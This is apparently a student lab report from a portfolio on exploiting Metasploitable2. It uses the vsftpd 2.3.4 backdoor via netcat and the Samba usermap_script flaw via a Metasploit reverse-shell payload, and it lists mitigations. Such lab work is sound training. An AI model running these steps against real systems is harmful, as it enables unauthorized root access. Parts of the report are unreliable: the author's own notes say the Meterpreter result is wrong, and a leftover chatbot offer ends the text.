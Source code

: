 # Lab Report: Metasploitable2 - vsftpd & Samba Exploitation

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)
- [Screenshots](#screenshots)

---

## Objective
The purpose of this lab is to practice penetration testing techniques by exploiting known vulnerabilities in the Metasploitable2 virtual machine, specifically targeting vsftpd 2.3.4 and Samba 3.0.20 services.

---

## Lab Setup
- **Target:** Metasploitable2 VM
- **Attacker:** Kali Linux VM
- **Network:** NAT setup ensuring connectivity between attacker and target
- **Tools Used:** Nmap, Metasploit Framework, Netcat, smbclient

---

## Reconnaissance
open source intelligence (osint) 

Metasploitable 2

A test environment provides a secure place to perform penetration testing and security research. For your test environment, you need a Metasploit instance that can access a vulnerable target. The following sections describe the requirements and instructions for setting up a vulnerable target. Downloading and Setting Up Metasploitable 2 The easiest way to get a target machine is to use Metasploitable 2, which is an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities. This virtual machine (VM) is compatible with VMWare, VirtualBox, and other common virtualization platforms.

Metasploitable 2 is available at:

    https://information.rapid7.com/metasploitable-download.html 

https://sourceforge.net/projects/metasploitable/ 

### Nmap Scan
Performed a comprehensive port scan to identify open services:

```bash
nmap -sV -p 21,139,445 <target-ip>
````
![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/34c3b8c116d0e423931981bfdc966a7bf373244b/Pentest-Labs/screenshots/nmap_version_port_scan.png)

**Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

---

## Exploitation

### vsftpd 2.3.4 Backdoor Exploit

1. **Description:** vsftpd 2.3.4 contains a malicious backdoor (CVE-2011-2523) that opens a command shell on port 6200 when any username and password is used.

2. **Steps:** 
   To attack the ftp vulnerability, I used netcat.
   
```bash
nc <target-ip> 21
```

* When prompted for username, I entered `exploitingYou:)`
* When prompted for password, I entered `youvebeenhacked`

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/fa77757b69c17942f5b6ac69fa3ea0955e164f4c/Pentest-Labs/screenshots/nc_user_pass_exploit.png)

* After login, connect to port 6200 to get a shell:
  
```bash
nc -v <target-ip> 6200
```
* NOTE: I used -v here for a more verbose output.
  
3. **Result:** Obtained a root shell on the target system. "whoami", "id", and "ls" command were ran to show root access and files.

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/0c13deda10d5ea5146ad7055da298159402aafca/Pentest-Labs/screenshots/nc_root_access.png)

---

### Samba 3.0.20 Exploit (username map script)

1. **Description:** Samba 3.0.20 contains a remote code execution vulnerability.

2. **Using Metasploit:**

```bash
msfconsole
(change me below. I used a slightly different method.)
use exploit/multi/samba/usermap_script 
set RHOSTS <target-ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp 
set LHOST <your-ip>
run
```

3. **Result:** Obtained a Meterpreter session with root privileges. (I did not use Meterpreter. Change this)

---

## Post-Exploitation

* Enumerated user accounts
* Checked system information
* Demonstrated ability to upload and execute files
* Captured proof of root access

---

## Mitigations & Recommendations

* Upgrade vsftpd to a non-vulnerable version
* Patch Samba to the latest stable release
* Disable unused services
* Implement firewall rules to restrict access

---

## References

* [Metasploitable2 Official Documentation](https://sourceforge.net/projects/metasploitable/)
* [CVE-2011-2523 - vsftpd 2.3.4 Backdoor](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

## Screenshots

![Nmap Scan](screenshots/nmap_scan.png)
*Figure 1: Nmap scan results*

![vsftpd Backdoor Shell](screenshots/vsftpd_shell.png)
*Figure 2: vsftpd backdoor shell*

![Meterpreter Session](screenshots/meterpreter_session.png)
*Figure 3: Samba exploit Meterpreter session*

---

*End of Report*

```

---

Would you like me to help generate specific sections with real example outputs or help you embed screenshots?
```
